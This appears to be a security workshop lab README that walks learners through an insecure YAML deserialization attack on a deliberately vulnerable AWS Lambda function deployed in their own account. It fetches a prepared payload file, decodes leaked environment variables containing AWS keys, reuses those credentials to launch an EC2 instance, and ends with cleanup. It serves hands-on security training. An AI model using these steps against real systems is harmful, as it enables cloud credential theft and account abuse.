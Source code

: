 # Insecure Deserialization

>In this example, we'll leverage an Insecure Deserialization Attack to compromise and perform lateral movement against the AWS Account

**Note:** If you have not setup your aws cli follow [AWS-CLI-Configuration](aws-configure/README.md) under the `Setup` section*

* Step 1: In your image, navigate over to `/root/labs/Serverless-Workshop/Insecure-Deserialization`

```commandline
cd /root/labs/Serverless-Workshop/Insecure-Deserialization
```

* Step 2: Run `sls plugin install -n serverless-python-requirements`

```commandline
sls plugin install -n serverless-python-requirements
```

* Wait for instructor to explain the contents of the lab
* Step 3: Let's look at the contents of the `serverless.yml` [here](https://github.com/we45/Serverless-Workshop/blob/master/DynamoDB-Injection/serverless.yml)

* Step 4: Deploy the function with the command `sls deploy`

```commandline
sls deploy
```
* Wait for the function to deploy completely
* Once the function is deployed, you should see a URL ending with `yaml-upload`
* Step 5: Let's first upload a yaml file to see what it does

```bash
http POST https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/yaml-upload file=@serverless.yml
```

* Step 6: Now let's run a malicious yaml to see if our attack works

```bash
wget https://raw.githubusercontent.com/we45/container_training/master/Kubernetes/K8s-Cluster-Attack/payloads/test_payment.yml
```

* Examine this file and see what's different about it

* Step 7: Now let's upload the YAML file and see if our payload executes

```bash
http POST https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/yaml-upload file=@test_payment.yml
```

You should see a response like this
```json

{
    "content": {
        "amount": 112,
        "card": 5111111111111111,
        "merchant": "Hello World Traders",
        "name": "PayTM Bill payment 5",
        "reason": "UEFUSD0vdmFyL2xhbmcvYmluO <Truncated base64 value>"
    }
}

```
* Step 8: Copy the Base64 encoded value for the  `reason` key and run: 

```bash
echo "<copied value>" | base64 -d
```

you should see a bunch of environment variables being displayed on screen

```bash
ATH=/var/lang/bin:/usr/local/bin:/usr/bin/:/bin:/opt/bin
LD_LIBRARY_PATH=/var/lang/lib:/lib64:/usr/lib64:/var/runtime:/var/runtime/lib:/var/task:/var/task/lib:/opt/lib
LANG=en_US.UTF-8
TZ=:UTC
LAMBDA_TASK_ROOT=/var/task
LAMBDA_RUNTIME_DIR=/var/runtime
AWS_REGION=us-west-2
AWS_DEFAULT_REGION=us-west-2
AWS_LAMBDA_LOG_GROUP_NAME=/aws/lambda/we45-sls-workshop-deserial-dev-deserial
AWS_LAMBDA_LOG_STREAM_NAME=2019/07/25/[$LATEST]d10c0fbe300f43f5b5f4827099e506c2
AWS_LAMBDA_FUNCTION_NAME=we45-sls-workshop-deserial-dev-deserial
AWS_LAMBDA_FUNCTION_MEMORY_SIZE=2048
AWS_LAMBDA_FUNCTION_VERSION=$LATEST
_AWS_XRAY_DAEMON_ADDRESS=169.254.79.2
_AWS_XRAY_DAEMON_PORT=2000
AWS_XRAY_DAEMON_ADDRESS=169.254.79.2:2000
AWS_XRAY_CONTEXT_MISSING=LOG_ERROR
AWS_EXECUTION_ENV=AWS_Lambda_python3.7
_HANDLER=handler.main
AWS_ACCESS_KEY_ID=<AWS_ACCESS_KEY_ID>
AWS_SECRET_ACCESS_KEY=<AWS_SECRET_ACCESS_KEY>
AWS_SESSION_TOKEN=<AWS_SESSION_TOKEN>
```

* Step 9: Now run `export AWS_ACCESS_KEY_ID=<AWS_ACCESS_KEY_ID>` by copying the Access Key ID

```commandline
export AWS_ACCESS_KEY_ID=<AWS_ACCESS_KEY_ID>
```

* Step 10: Now run `export AWS_SECRET_ACCESS_KEY=<AWS_SECRET_ACCESS_KEY>` by copying the Access Key

```commandline
export AWS_SECRET_ACCESS_KEY=<AWS_SECRET_ACCESS_KEY>
```

* Step 11: Now run `export AWS_SESSION_TOKEN=<AWS_SESSION_TOKEN>` by copying the session token

```commandline
export AWS_SESSION_TOKEN=<AWS_SESSION_TOKEN>
```

you are now using the credential provided by these tokens for the Lambda service

* Step 12: if you run `aws dynamodb list-tables` you should get an error, as you are no longer using the admin profile anymore

```commandline
aws dynamodb list-tables
```

### Let's complete the attack

* Step 13: Now we should be able to launch an EC2 instance with this command: 
```bash
aws ec2 run-instances --image-id ami-9abea4fb --count 1 --instance-type t2.micro
```

* Step 14:  Now access your AWS Console and look `EC2`, and go to `instances` and check the `instances status`. It should show `running`. That means Server has been provisioned.
 
![EC2 Instance](img/ec2.png)

## Clean up - Very important!!!

* Step 15: Get *ec2 InstanceId*  `aws ec2  describe-instances | grep InstanceId`

```commandline
aws ec2  describe-instances | grep InstanceId
``` 

* Step 16: Copy the `InstanceId` and terminate the `ec2` instance `aws ec2 terminate-instances --instance-ids <InstanceId Value>`

```commandline
aws ec2 terminate-instances --instance-ids <InstanceId Value>
```


### You don't want to leave your AWS Account with actively exploitable RCE flaw

* Step 17: Unset the AWS_ACCESS_KEY_ID

```commandline
unset AWS_ACCESS_KEY_ID
```

* Step 18: Unset the AWS_SECRET_ACCESS_KEY

```commandline
unset AWS_SECRET_ACCESS_KEY
```

* Step 19: Unset the AWS_SESSION_TOKEN

```commandline
unset AWS_SESSION_TOKEN
```

* Step 20: In your image, navigate over to `/root/labs/Serverless-Workshop/Insecure-Deserialization`

```commandline
cd /root/labs/Serverless-Workshop/Insecure-Deserialization
```

* Step 21: now run `sls remove` to remove the vulnerable function from your account

```commandline
sls remove --force
```


